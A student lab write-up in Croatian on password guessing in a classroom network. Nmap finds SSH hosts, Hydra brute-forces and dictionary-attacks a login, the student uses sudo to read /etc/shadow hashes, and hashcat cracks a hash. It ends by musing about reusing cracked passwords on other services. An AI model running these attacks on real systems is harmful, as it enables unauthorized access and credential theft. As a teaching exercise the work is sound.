

# Lab 5 - Online and Offline Password Guessing Attacks

## 1. NMAP

Nmap ("Network Mapper") je moćan mrežni alat koji za istaraživanje mreža i skeniranje portova.

### 1.1 Installation

```bash
apt-get install nmap
```

### 1.2 Usage

```bash
nmap -v 10.0.15.0/28

Starting Nmap 7.60 ( https://nmap.org ) at 2021-12-20 16:17 CET
Initiating Ping Scan at 16:17
Scanning 16 hosts [2 ports/host]
Completed Ping Scan at 16:17, 2.50s elapsed (16 total hosts)
Initiating Parallel DNS resolution of 16 hosts. at 16:17
Completed Parallel DNS resolution of 16 hosts. at 16:17, 14.02s elapsed
Nmap scan report for 10.0.15.12 [host down]
Nmap scan report for 10.0.15.13 [host down]
Nmap scan report for 10.0.15.14 [host down]
Nmap scan report for 10.0.15.15 [host down]
Initiating Connect Scan at 16:17
Scanning 12 hosts [1000 ports/host]
Discovered open port 22/tcp on 10.0.15.3
Discovered open port 22/tcp on 10.0.15.4
Discovered open port 22/tcp on 10.0.15.6
Discovered open port 22/tcp on 10.0.15.8
Discovered open port 22/tcp on 10.0.15.0
Discovered open port 22/tcp on 10.0.15.1
Discovered open port 22/tcp on 10.0.15.9
Discovered open port 22/tcp on 10.0.15.11
Discovered open port 22/tcp on 10.0.15.5
Discovered open port 22/tcp on 10.0.15.2
Discovered open port 22/tcp on 10.0.15.7
Discovered open port 22/tcp on 10.0.15.10
Completed Connect Scan against 10.0.15.7 in 1.35s (11 hosts left)
Completed Connect Scan against 10.0.15.8 in 1.44s (10 hosts left)
Completed Connect Scan against 10.0.15.9 in 1.47s (9 hosts left)
Completed Connect Scan against 10.0.15.1 in 1.51s (8 hosts left)
Completed Connect Scan against 10.0.15.2 in 1.51s (7 hosts left)
Completed Connect Scan against 10.0.15.10 in 1.51s (6 hosts left)
Completed Connect Scan against 10.0.15.3 in 1.52s (5 hosts left)
Completed Connect Scan against 10.0.15.6 in 1.52s (4 hosts left)
Completed Connect Scan against 10.0.15.4 in 1.52s (3 hosts left)
Completed Connect Scan against 10.0.15.11 in 1.56s (2 hosts left)
Completed Connect Scan against 10.0.15.5 in 1.60s (1 host left)
Completed Connect Scan at 16:17, 1.61s elapsed (12000 total ports)
Nmap scan report for 10.0.15.0
Host is up (0.00093s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.1
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.2
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.3
Host is up (0.0016s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.4
Host is up (0.00073s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.5
Host is up (0.0010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.6
Host is up (0.0016s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.7
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.8
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.9
Host is up (0.0014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.10
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.11
Host is up (0.00093s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
Nmap done: 16 IP addresses (12 hosts up) scanned in 18.17 seconds
```

### Explanation

Pokrenuli smo nmap da skeniramo IP adrese u sljedećem rasponu:

10.0.15.0/28

<aside>
💡 IP adresa i mrežna maska u CIDR formatu

</aside>

to jest sve IP adrese od 10.0.15.0 do 10.0.15.15, 16 IP adresa

Za svaku skeniranu adresu imamo imamo vrijeme odziva, broj portova koji nisu prikazani, te najbitnije, otvorene portove koji s prikazani sa statusom i servisom pokrenutom na tom portu.

Iz rezultata vidimo da sva računala imaju otvoren port 22 na kojem slušaju zahtjeve za SSH konekcije.

## 2. SSH

SSH omogućuje pristup terminalu na remote računalu i pruža SSH klijentu kontrolu nad tim računalom. 

Remote shell, secure shell, secure jer je sva komunikacija zaticena, remote jer je shell ali na drugom računalu. 

### 2.1 Connection

Za spajanje na SSH server trebamo SSH klijentsku aplikaciju koja je dio regularnog seta aplikacija koje dolaze s OS, stoga je za spajanje samo potrebno u terminal navesti naredbu `ssh` te tko se spaja(username) i gdje se spaja(mrežna adresa računala).

`ssh <username>@<address>`

Username je klijent koji pristupa SSH na tom racunalu s tom IP adresom.

```bash
ssh durdov_bozo@10.0.15.1
The authenticity of host '10.0.15.1 (10.0.15.1)' can't be established.
ECDSA key fingerprint is SHA256:u4rEaCKzOum3w9z1y+9B+DW/uDhp020DQXH4Sso12ns.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.15.1' (ECDSA) to the list of known hosts.
durdov_bozo@10.0.15.1's password:
Permission denied, please try again.
durdov_bozo@10.0.15.1's password:
Permission denied, please try again.
durdov_bozo@10.0.15.1's password:
durdov_bozo@10.0.15.1: Permission denied (publickey,password).
```

No da bi i dobili pristup trebamo i odogovarajuću lozinku, ili private key, ili najčešće oboje.

<aside>
💡 SSH nema implementiran rate limiter

</aside>

## 3. Online napad

- pokušajemo se ulogirati s različitim lozinkama i čekamo dok se ne ulogiramo

S obzirom na spoznaju da SSH ne blokira klijente bez obzira koliko puta pogriješili lozinku znamo da možemo izvesti online napad.

### 3. Keyspace

- domena riječi koju želimo isprobati kao potencijalnu lozinku

Zadano:

- lowercase, samo slova engleske abecede, 26 znakova
- duljina, 4 - 6 znakova
    
    
    
    ⇒ 321 254 128 kombinacija
    
    ili 
    
    26^4 * ( 26^2 + 26 + 1 ) **≈** 26^6=300m
    

### 3.1 Bruteforce with Hydra

- proći sve kombincije - online

Da bi to izveli koristimo automatizirani alat **Hydru**.

`hydra -l durdov_bozo -x 4:6:a 10.0.15.1 -V -t 1 ssh`

<aside>
💡 Uzmi mi username durdov_bozo i pokusaj mi glumit ssh klijenta i spajaj se na ovu adresu, i testiraj mi sve sifre iz ovog naseg spacea.

</aside>

```bash
hydra -l durdov_bozo -x 4:6:a 10.0.15.1 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 16:32:48
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.1:22/
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaac" - 3 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaad" - 4 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaae" - 5 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaf" - 6 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaag" - 7 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaah" - 8 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaai" - 9 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaj" - 10 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaak" - 11 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaal" - 12 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaam" - 13 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaan" - 14 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaao" - 15 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaap" - 16 of 321254128 [child 0] (0/0)
[STATUS] 16.00 tries/min, 16 tries in 00:01h, 321254112 to do in 334639:43h, 1 active[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaq" - 17 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaar" - 18 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaas" - 19 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaat" - 20 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaau" - 21 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaav" - 22 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaw" - 23 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaax" - 24 of 321254128 [child 0] (0/0)
```

- 16.00 tries/min → 330k sati → 38 godina

Trebamo novu metodu, bottleneck je na serveru jer on provjerava lozinku, hashiranjem, može se istovremeno slat vise zahtjeva ali i dalje ima ograničenja.

Rješenje ovog problema je ukloniti šifre koje nemaju smisla, pa isprobajemo samo određene lozinke iz keyspacea, tj. koristimo dictionary kako bi ubrzali napad.

### 3.2 Dictionary attack with Hydra

Započetak preuzimamo dictionary jednostavnom naredbom `wget`.

wget -r -nH -np --reject "index.html*" [http://a507-server.local:8080/dictionary/g1/](http://a507-server.local:8080/dictionary/g1/)

No, da bi skinuli dictionary moramo nekako pročitati nejasni error iz console i saznati da nemamo ovlasti u trenutnom direktoriju, pa pronaći i prebaciti se u direktorij kojem imamo pravo skinuti datoteke.

Pokretanje Hydre sa dictionaryem.

`hydra -l durdov_bozo -P dictionary/g1/dictionary_online.txt 10.0.15.1 -V -t 4 ssh`

```bash
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "kajgjp" - 212 of 872 [child 3] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "fonwhe" - 213 of 872 [child 1] (0/0)
[22][ssh] host: 10.0.15.1   login: durdov_bozo   password: fonwhe
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-20 16:47:47
student@DESKTOP-7Q0BASR:/mnt/c$ ssh durdov_bozo@10.0.15.1
```

Hydra prekida rad kada otkrije lozinku, `fonwhe`, te je prikladno ispiše.

## 4. Grand theft of password hashes

Nakon što smo otkrili lozinku možemo ponoviti proceduru spajanja te se ulogirati.

`ssh [durdov_bozo@10.0.15.1](mailto:durdov_bozo@10.0.15.1)`

Zatim možemo primjetiti promjenu u consoli, kao da se nalazimo na drugom računalu, a user je onaj iz ssh naredbe. 

Te sumnje potvrđujemo naredbom `whoami`

```bash
durdov_bozo@host_durdov_bozo:~$ whoami
durdov_bozo
```

### 4.1 **Checking Permissions**

Također možemo provjeriti u kojim smo grupama naredbom `groups`

```bash
durdov_bozo@host_durdov_bozo:/etc$ groups
durdov_bozo sudo
```

Pripadamo grupi `sudo` i imamo administratorske ovlasti :)

### 4.2 Taking peek at password hashes

Zatim pomoću tih ovlasti odazimo u *etc/shadow direktorij* te krademo hasheve lozinki svih usera.

```bash
durdov_bozo@host_durdov_bozo:/$ sudo cat etc/shadow
root:*:18900:0:99999:7:::
daemon:*:18900:0:99999:7:::
bin:*:18900:0:99999:7:::
sys:*:18900:0:99999:7:::
sync:*:18900:0:99999:7:::
games:*:18900:0:99999:7:::
man:*:18900:0:99999:7:::
lp:*:18900:0:99999:7:::
mail:*:18900:0:99999:7:::
news:*:18900:0:99999:7:::
uucp:*:18900:0:99999:7:::
proxy:*:18900:0:99999:7:::
www-data:*:18900:0:99999:7:::
backup:*:18900:0:99999:7:::
list:*:18900:0:99999:7:::
irc:*:18900:0:99999:7:::
gnats:*:18900:0:99999:7:::
nobody:*:18900:0:99999:7:::
_apt:*:18900:0:99999:7:::
systemd-network:*:18977:0:99999:7:::
systemd-resolve:*:18977:0:99999:7:::
messagebus:*:18977:0:99999:7:::
sshd:*:18977:0:99999:7:::
durdov_bozo:$6$0UTLcyAybUr2kIjE$CT4UfBbHBsUTWKKZfQxciEvgCTRcMs2G2w6JWcB.pKhhwyFId39J04ZQ3OYBqHF1pRxfHg0vKZ3dhmeCSb82z.:18981:0:99999:7:::
jean_doe:$6$ag4gLNu/O5YGokjf$I4QACxiwW3h2tzM3j69u17uhbivsejSZaVBRC.sVYfLg3TpBdIOTDQoHfNWGB88wVH5eoU9zuGYOB12XlaOWL1:18981:0:99999:7:::
john_doe:$6$f2TP00nssZEX30Ke$2Ga59ThZWRABJRVMMfYTh/4kR2YUEIvCDrvX80Lu50LN4jziUStcJ2Ghi8GxaP8OKp4o1Ym77QwwFH6lN0ovc0:18981:0:99999:7:::
alice_cooper:$6$0EMUgv9OqyYPt206$Jm8h0VjGtnBlS1abDRkZYslwAqLtjy9G1ecZPhTRQY5Xn5G5TVnuQIUoxg4aqOBl7fEj0Z7W7s6/8BwKxPynM/:18981:0:99999:7:::
john_deacon:$6$bd6ACNaCMKNxD7n0$YDq7WzLZPVBHstqipnKzRVLO/FJ0hG5TgYVLvNkLOhvUJboy28CsH5hVvvrtQh2aQDle2iCKx538Gb7vKhVLn/:18981:0:99999:7:::
freddie_mercury:$6$kFzUi.w/pwF/FtDp$geTNygwPRJ.GmkXm8E/QhEaOR5T3ip7v7.TSBWt8hXF8IQG9aYIzhSwhd0PgsF9tmw3FVGNMtvtEd5Z6NGz4U/:18981:0:99999:7:::
```

Kopiramo password hash:

<aside>
⛔ $6$0UTLcyAybUr2kIjE$CT4UfBbHBsUTWKKZfQxciEvgCTRcMs2G2w6JWcB.pKhhwyFId39J04ZQ3OYBqHF1pRxfHg0vKZ3dhmeCSb82z.

</aside>

Te spremimo hash u hash.txt na našem računalu.

## 5. Offline bruteforce attack

`hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10`

<aside>
💡 izvedi bruteforce napad na hash koji se nalazi u hash.txt i 
domena lozinki neka bude: samo 6 slova, 6 puta se ponavlja ta kombinacija slovo ?l

</aside>

```bash
Session..........: hashcat
Status...........: Running
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$0UTLcyAybUr2kIjE$CT4UfBbHBsUTWKKZfQxciEvgCTRcMs2...Sb82z.
Time.Started.....: Mon Dec 20 17:01:23 2021 (1 min, 9 secs)
Time.Estimated...: Thu Jan 27 05:07:08 2022 (37 days, 12 hours)
Guess.Mask.......: ?l?l?l?l?l?l [6]
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:       95 H/s (17.93ms)
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 6688/308915776 (0.00%)
Rejected.........: 0/6688 (0.00%)
Restore.Point....: 176/11881376 (0.00%)
Candidates.#1....: hvssta -> hcdrer
HWMon.Dev.#1.....: N/A

[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit =>
```

Za razliku od online bruteforce napada, offline bruteforce zahtjeva samo 40ak dana, ali to je i dalje presporo, nema smisla.

## 6. Offline dictionary attack

Pošto radimo offline i mozemo isprobati vise lozinki u kracem vremenu idemo sa većim dictionaryem.

`hashcat --force -m 1800 -a 0 hash.txt dictionary/g2/dictionary_offline.txt --status --status-timer 10`

```bash
$6$0UTLcyAybUr2kIjE$CT4UfBbHBsUTWKKZfQxciEvgCTRcMs2G2w6JWcB.pKhhwyFId39J04ZQ3OYBqHF1pRxfHg0vKZ3dhmeCSb82z.:fonwhe

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$0UTLcyAybUr2kIjE$CT4UfBbHBsUTWKKZfQxciEvgCTRcMs2...Sb82z.
Time.Started.....: Mon Dec 20 17:07:15 2021 (3 mins, 20 secs)
Time.Estimated...: Mon Dec 20 17:10:35 2021 (0 secs)
Guess.Base.......: File (dictionary/g2/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      122 H/s (10.13ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 23680/50072 (47.29%)
Rejected.........: 0/23680 (0.00%)
Restore.Point....: 23552/50072 (47.04%)
Candidates.#1....: knplea -> katazp
HWMon.Dev.#1.....: N/A

Started: Mon Dec 20 17:07:13 2021
Stopped: Mon Dec 20 17:10:36 2021
```

Nakon nekog vremena možemo primjetiti da je izvršenje završeno te potražiti lozinku na preglednom prikazu.

Vidimo da je lozinka ista kao i u prethodnom slucaju online napada jer smo zabunom uzeli hash za istog usera. Da smo uzeli hash drugog usera mogli bi se spojiti preko SSH sa drugim userom. Također je zanimljivo ukoliko dođemo do lozinki svih usera iz hasheva i pokušamo ih iskoristiti na drugim servisima, kao gmail, instagram, elearning..., ali MFA na svakom bitnijem sustavu nam komplicira situaciju.